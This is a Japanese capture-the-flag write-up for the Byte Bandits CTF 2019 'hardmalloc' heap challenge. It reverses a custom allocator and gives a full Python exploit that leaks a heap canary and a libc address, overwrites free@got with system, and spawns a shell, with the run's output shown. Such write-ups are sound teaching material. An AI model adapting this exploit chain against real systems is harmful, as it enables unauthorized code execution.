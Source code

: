 # [pwn ???pts] hardmalloc - Byte Bandits CTF 2019
64ビットでSSPやRELROは無効です。
```
$ checksec -f pwnable
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		4	pwnable
```

main関数が始まるとmmapで何かの領域を確保して初期化し、pthread_createでスレッドを生成しています。
初期化は次のような処理です。
```c
global_heap = mmap(0, global_size, 3, 0x22, -1, 0);
memset(global_heap, 0, global_size);
size_remaining = global_size;
dest = global_heap;
```

メインはヒープ系の問題っぽいサービスで、次の3つの機能があります。

- Create a block
- Print a block
- Write to a block

createではサイズを自由に指定できますが、作れるブロックは最大10個までです。
また、`size_remaining`よりも指定したサイズが小さければ作れます。
どうやら独自実装のヒープらしく、処理は次のようになっています。
```c
fd = open("/dev/urandom", 0);
read(fd, buf, 4);
close(fd);
temp = (mem_t*)malloc(0x20);
temp->addr = top;
temp->id   = *(unsigned int*)buf;
temp->size = size;
temp->x    = 0;
top += size;
size_remaining -= size;
memcpy(top, temp, 0x20);
chunk_list[num] = top;
top += 0x20;
size_remaining -= 0x20;
free(temp);
num += 1;
id_list[num] = *(unsigned int*)buf;
```

`mem_t`は次のようになっています。
```c
typedef struct {
  unsigned long size; // 0x00-0x08
  unsigned long id;   // 0x08-0x10
  char *addr;         // 0x10-0x18
  unsigned long x;    // 0x18-0x20
} mem_t;
```

したがって、ヒープ上では次のような領域が出来上がります。
```
|             |
+-------------+ <-- chunk_list[0]->addr
|             |
|  User Data  |
|             |
+------+------+ <-- chunk_list[0]
| size |  id  |
+------+------+
| addr |  x   |
+------+------+ <-- chunk_list[1]->addr
|             |
|  User Data  |
|             |
+------+------+ <-- chunk_list[1]
| size |  id  |
+------+------+
| addr |  x   |
+------+------+
|             |
```

これ自体は問題なさそう。
次にprintを見ていきます。
```c
if (index < 0 || index >= num) {
  puts("Block doesn't exist");
} else {
  ptr = chunk_list[index];
  write(1, ptr->addr, ptr->size);
  putchar(0x0A);
}
```

これも問題なさそう。
最後にwrite_to_blockを見ていきます。
ここではインデックスの他にサイズを指定できます。

```c
if (index < 0 || index >= num) {
  puts("Block doesn't exist");
} else {
  ptr = chunk_list[index];
  read(0, ptr->addr, size);
}
```

明らかにオーバーフローできますね。
しかし問題があります。
実は最初に生成していたスレッドがオーバーフローを監視しているのです。
今までidと書いてきたものは実はcanaryだったんですね。

```c
while(1) {
  for(i = 0; i < num; i++) {
    if (chunk_list[i]->canary != canary_list[i]) {
      puts("Canary corrupted. Exiting.");
      exit(1);
    }
  }
}
```

ということで、回避するためにはヒープ上に正しいcanaryを置くかチェック先のcanaryを書き換える必要があります。
canaryよりも前にsizeがあるので、ここを書き換えてprintすればcanaryが出力されるはずです。
したがって、リークされたcanaryを使ってやはりオーバーフローが可能になります。

あとはaddrをGOTのポインタに書き換えてlibc baseをリークし、さらにそのGOTのアドレスを~~one gadgetやらに書き換えればOKです。~~
本番環境では上手くいくかもしれませんが、私の環境では上手く動くone gadget rceがなかったのでfreeを使うことにしました。
create a blockするときにfreeが呼ばれるのですが、freeされるアドレス(temp)の先頭にはsizeが入っているので、サイズがASCIIで`sh`となるような領域を確保すればシェルが取れるはずです。

```python
from ptrlib import *
from time import sleep

def create_block(size):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("size:")
    sock.sendline(str(size))

def print_block(index):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("index:")
    sock.sendline(str(index))
    sock.recvline()
    return sock.recvline().rstrip()

def write_block(index, size, data):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("index:")
    sock.sendline(str(index))
    sock.recvuntil("size:")
    sock.sendline(str(size))
    sleep(0.1)
    sock.send(data)

elf = ELF("./pwnable")

#libc = ELF("./libc-2.23.so")
#libc_one_gadget = 0x4526a

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
libc_one_gadget = 0x4f2c5
sock = Process("./pwnable")

# leak canary for id=0
create_block(0x20) # 0
payload = b'A' * 0x20
payload += p64(0x30) # size
write_block(0, len(payload), payload)
canary = print_block(0)[0x28:0x30]
dump(b"canary[0] = " + canary)

# leak libc base
payload = b'A' * 0x20
payload += p64(0x8) # size
payload += canary
payload += p64(elf.got("free"))
write_block(0, len(payload), payload)
addr_puts = u64(print_block(0))
libc_base = addr_puts - libc.symbol("free")
dump("libc base = " + hex(libc_base))
#addr_one_gadget = libc_base + libc_one_gadget

# write <system> to free@got
write_block(0, 8, p64(libc_base + libc.symbol("system")))

# get the shell
create_block(u16("sh"))

sock.interactive()
```

わーい、動いたー。
```
$ python solve.py
[+] Process: Successfully created new process (PID=8518)
[ptrlib] b'canary[0] = \x92\xa3\x8d\xa7\x00\x00\x00\x00'
[ptrlib] libc base = 0x7f8fd81ec000
[ptrlib]$ id

uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
```

# 感想
思ったより簡単でした。
